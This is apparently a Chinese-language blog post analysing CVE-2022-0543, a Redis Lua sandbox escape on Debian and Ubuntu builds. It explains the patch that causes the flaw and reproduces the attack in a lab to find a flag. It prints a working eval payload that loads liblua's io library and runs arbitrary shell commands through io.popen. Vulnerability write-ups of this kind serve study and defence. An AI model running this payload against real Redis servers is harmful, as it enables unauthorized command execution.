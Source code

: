 ```yaml
---
title: CVE-2022-0543 Redis Lua
date: 2023-02-08 14:51:49
tags: CVE漏洞
---
```


##### eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("     指令     ", "r"); local res = f:read("*a"); f:close(); return res' 0

影响范围：Debian系得linux发行版本+Ubuntu

<!-- more -->

### 一、描述

​		影响范围：Debian系得linux发行版本+Ubuntu

​		其并非Redis本身漏洞，形成原因在于系统补丁加载了一些redis源码注释了的代码

​		揭露时间：2022.3.8

### 二、原理

​		redis在用户连接后可以通过eval命令执行Lua脚本，但是脚本跑在沙箱中，正常情况下无法执行命令读取文件，所以这个漏洞的本质是沙箱绕过。

Ubuntu/Debian/CentOS等这些发行版本会在原始软件的基础上打一些补丁包，其中给Redis打了一个的补丁,增加了一个include, 下面是Debian通过shell使用make生成补丁包的源码：

```c
debian/lua_libs_debian.c:
    echo "// Automatically generated; do not edit." >$@
    echo "luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package);" >>$@
    set -e; for X in $(LUA_LIBS_DEBIAN_NAMES); do \
        echo "if (luaL_dostring(lua, \"$$X = require('$$X');\"))" >>$@; \
        echo "    serverLog(LL_NOTICE, \"Error loading $$X library\");" >>$@; \
    done
    echo 'luaL_dostring(lua, "module = nil; require = nil;");' >>$@

```

- `luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package)`就是漏洞的来源

这段代码原本被注释掉，而这个补丁却重新把他写了进去，导致在Lua沙箱中遗留了一个对象package，攻击者可以利用package对象提供的加载动态链接库liblua里的函数逃逸。

```c
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

注：不同系统下liblua5.1.so.0路径不同

​		io.popen("", "r"); 的第一个引号内为执行命令

连接后可以使用以下命令逃逸

```c
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

### 三、复现

![](CVE-2022-0543-Redis-Lua/1.png)

​			 在靶场中启用镜像

​			一般情况下，redis运行在6379（默认端口），而在此镜像中映射于36770端口可以使用nmap扫描端口发现相应服务

​			使用kali的redis-cli尝试连接redis，进入后使用eval使用相关脚本 ls  /tmp 找到flag

![](CVE-2022-0543-Redis-Lua/2.png)

该漏洞成功复现
